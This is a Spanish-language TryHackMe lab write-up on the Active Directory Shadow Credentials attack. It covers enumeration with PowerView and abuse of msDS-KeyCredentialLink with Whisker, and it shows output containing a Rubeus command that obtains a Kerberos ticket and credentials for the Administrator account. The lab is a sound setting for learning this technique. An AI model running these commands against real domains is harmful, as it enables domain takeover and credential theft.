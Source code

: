 ![AD users](img/1.svg)

Proceso de autenticación:

1. **Autorización**: el DC desencripta la información *pre-authenticated* mediante la llave pública guardada en el atributo `msDS-KeyCredentialLink` de la cuenta del usuario.
2. **Creación del certificado**: el certificado del usuario es generado por el DC y puede ser enviado de vuelta al cliente.
3. **Autenticación**: el cliente puede ingresar al AD utilizando el certificado.

![auth](img/2.png)

THM nos menciona que es posible comprometer el AD si un atacante tiene la capacidad de redefinir el valor de `msDS-KeyCredentialLink` de un usuario particular.

## Enumeración

Para enumerar el AD con el objetivo de ver los permisos vulnerables vamos a hacer uso del script de PowerShell llamado `PowerView` con el comando `FindInterestingDomainAcl`. Esta funcionalidad muestra un listado de todos los privilegios que se pueden abusar, podemos también filtrar los resultados para el usuario actual, en este caso `hr`.  
Específicamente estamos buscando privilegios de escritura para redefinir el valor de `msDS-KeyCredentialLink`.

Para un ejemplo completo ver el apartado correspondiente dentro de [Resolución](#resolución)

## Explotación

Luego de la enumeración podemos hacer uso de una herramienta creada en C# llamaba **Whisker**. Esta utilidad permite abusar el privilegio vulnerable que obtuvimos de la enumeración, funciona de la siguiente manera: una vez obtenido el usuario vulnerable, ejecutamos el comando `add` desde Whisker para simular la inscripción de un dispositivo malicioso, de esta manera actualizamos el valor del atributo `msDS-KeyCredentialLink`.  
El comando a ejecutar sería así:

```ps1
.\Whisker.exe add /target:Administrator
```

Reemplazaríamos `/target` por lo obtenido en el proceso de enumeración. El output sería algo así:

```ps1
PS C:\Users\hr\Desktop> .\Whisker.exe add /target:Administrator
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password qfyNlIfCjVqzwh1e
[*] Searching for the target account
[*] Target user found: CN=Administrator,CN=Users,DC=AOC,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID ae6efd6c-27c6-4217-9675-177048179106
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:
Rubeus.exe asktgt /user:Administrator /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEHAaCCCW0EgglpMIIJZTCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF/zCCBfsGCyqGSIb[snip] /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```

